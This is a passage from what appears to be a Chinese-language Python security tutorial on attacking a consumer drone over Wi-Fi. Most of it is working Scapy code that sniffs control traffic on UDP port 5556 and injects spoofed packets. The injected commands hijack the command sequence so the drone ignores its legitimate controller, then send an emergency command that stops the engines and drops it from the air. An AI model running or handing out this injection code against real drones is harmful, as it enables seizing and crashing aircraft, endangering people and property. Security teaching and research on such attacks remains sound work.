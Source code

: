 ```
    dport=uPkt.dport
    nPkt=UDP(sport=sport,dport=dport)
return nPkt 
```

接下来我们将添加一些新的方法到我们`interceptThread`类中，叫`injectCmd()`，这个函数复制当前包中的没一层，然后添加新的指令到 UDP 层。在创建新的数据包之后，它通过`sendp()`函数发送命令。

```
def injectCmd(self, cmd):
    radio = dup.dupRadio(self.curPkt)
    dot11 = dup.dupDot11(self.curPkt)
    snap = dup.dupSNAP(self.curPkt)
    llc = dup.dupLLC(self.curPkt)
    ip = dup.dupIP(self.curPkt)
    udp = dup.dupUDP(self.curPkt)
    raw = Raw(load=cmd)
    injectPkt = radio / dot11 / llc / snap / ip / udp / raw
sendp(injectPkt) 
```

紧急降落是控制无人机的一个重要的指令。者控制无人机停止引擎随时掉到地上，为了执行这个命令，我们将使用当前的序列号并跳 100。接下来，我们发送命令`AT*COMWDG=$SEQ\r`，这个命令重置通讯的序列号，无人机将忽略先前的序命令(比如那些被合法的 iPhone 发布的命令)。最后，我们发送我们的紧急迫降命令`AT*REF=$SEQ, 290717952\r`。

```
EMER = "290717952"
def emergencyland(self):
    spoofSeq = self.seq + 100
    watch = 'AT*COMWDG=%i\r'%spoofSeq
    toCmd = 'AT*REF=%i,%s\r'% (spoofSeq + 1, EMER)
    self.injectCmd(watch)
    self.injectCmd(toCmd) 
```

# 最终的攻击，紧急迫降无人机

让我们整合我们的代码并进行最后的攻击。首先，我们确保保存生成我们的数据包脚本并导入`dup.py`，接下来，我们检查我们的主要功能，开始拦截监听流量发现无人机，并提示我们发送紧急迫降指令。不到 70 行的代码，我们已经成功的拦截的无人机，好极了！感觉对我们的活动有点内疚。下一节中，我们将着重讨论如何识别在加密无线网络上的恶意活动。

```
# coding=UTF-8
import threading
import dup
from scapy.all import *

conf.iface = 'mon0'
NAVPORT = 5556
LAND = '290717696'
EMER = '290717952'
TAKEOFF = '290718208'

class interceptThread(threading.Thread):
    def __init__(self):
        threading.Thread.__init__(self)
        self.curPkt = None
        self.seq = 0
        self.foundUAV = False
    def run(self):
        sniff(prn=self.interceptPkt, filter='udp port 5556')
    def interceptPkt(self, pkt):
        if self.foundUAV == False:
            print('[*] UAV Found.')
            self.foundUAV = True
            self.curPkt = pkt
            raw = pkt.sprintf('%Raw.load%')
```